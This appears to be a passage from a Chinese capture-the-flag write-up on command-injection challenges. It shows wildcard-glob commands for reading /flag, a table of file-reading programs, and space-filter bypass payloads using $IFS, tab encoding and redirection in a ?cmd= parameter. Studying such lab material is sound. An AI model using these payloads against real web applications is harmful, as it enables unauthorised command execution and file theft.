 ```
/???/?a??64 /??a?  # 使用 /bin/base64 /flag
/bin/?a? /??a?  # 使用 /bin/cat /flag
```

**扩展 - 读文件的程序**

| 命令      | 描述                                                         |
| --------- | ------------------------------------------------------------ |
| `cat`     | 从第一行开始显示内容，并将所有内容输出                       |
| `tac`     | 从最后一行倒序显示内容，并将所有内容输出                     |
| `more`    | 根据窗口大小，一页一页地显示文件内容                         |
| `less`    | 根据窗口大小，显示文件内容，可以使用键盘上的 [Pg Dn] 和 [Pg Up] 翻页 |
| `head`    | 用于显示文件的头几行                                         |
| `tail`    | 用于显示文件的尾几行                                         |
| `nl`      | 类似于 `cat -n`，显示时输出行号                              |
| `tailf`   | 类似于 `tail -f`，实时显示文件尾部内容                       |
| `sort`    | 读取并排序文件内容                                           |
| `od`      | 以二进制的方式读取文件内容                                   |
| `vi`      | 一种编辑器，能查看文件内容                                   |
| `vim`     | 一种编辑器，能查看文件内容                                   |
| `uniq`    | 过滤重复行，能查看文件内容                                   |
| `file -f` | 显示文件类型信息，若出错会报告具体内容                       |

#### level 7 - 空格过滤

在 L5 的基础上，屏蔽了空格。

**$IFS**

在终端环境下 空格 被视为一个命令分隔符，本质上由 `$IFS` 变量控制，而 `$IFS` 的默认值是空格，你可以在终端中尝试 `echo $IFS | base64` 可以看到空格的base64编码。

```
?cmd=cat${IFS}/fl""ag

?cmd=cat$IFS/fl""ag

?cmd=cat%09/fl""ag
```

**重定向**

```
?cmd=cat</fl""ag
```
